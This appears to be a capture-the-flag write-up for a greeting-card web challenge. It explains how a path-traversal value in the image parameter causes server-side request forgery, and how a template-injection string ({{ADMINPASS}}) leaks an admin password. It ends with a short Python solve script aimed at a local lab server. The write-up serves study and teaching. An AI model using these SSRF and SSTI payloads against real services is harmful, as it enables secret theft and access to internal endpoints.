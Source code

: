 # Overview
- We firstly see that to get the flag we need to make an internal get request to `/admin-card` and provide the `adminpass` as a query parameter.
- Now the only endpoint available to us is `/cards` which accepts an `image` parameter, then *crafts* a card with that image and a random wish message.
- We analyze the `make_card` function:
```py
def make_card(img: str, wish= ''):
    if not img or not img.endswith('.png'):
        return None
    if any([c in wish for c in '<>%_&"\\()']): # these may crash something
        return None
    
    if not wish:
        wish = get_wish()
    
    img_b64 = img_from_url(f'http://127.0.0.1:1337/static/images/{img}')
    if not img_b64:
        return None
    card_html = generate_card_html(img_b64,wish)
    as_pic = imgkit.from_string(card_html, False, options= {'format': 'png', 'quiet': '', 'crop-h': '1000', 'crop-w': '800'})
    return as_pic
```
- It checks if the image ends with `.png` and if the wish message contains any of the characters `<>%_&"\\()`, if so it returns `None`.
- It then fetches the image from the server and generates a card with the image and the wish message.
- Also, the `generate_card_html` function seems to `render_template_string` with the `wish` value.

# Solution
- SSRF to hit the `/custom-cards` endpoint and SSTI to get the `ADMINPASS` value.
- Then SSRF to hit the `/admin-card` endpoint with the `adminpass` value.

```python
from requests import post
url='http://127.0.0.1:1337'

r=post(f'{url}/cards', data= {'image': '../../custom-cards?image=green.png&wish={{ADMINPASS}}&dummy=.png'}).content
open('card.png', 'wb').write(r)

# PASS = input('Pass>')
PASS = 'GOD_INTERN!'

r = post(f'{url}/cards', data= {'image': f'../../admin-card?pass={PASS}&dummy=.png'}).content

open('flag.png', 'wb').write(r)
```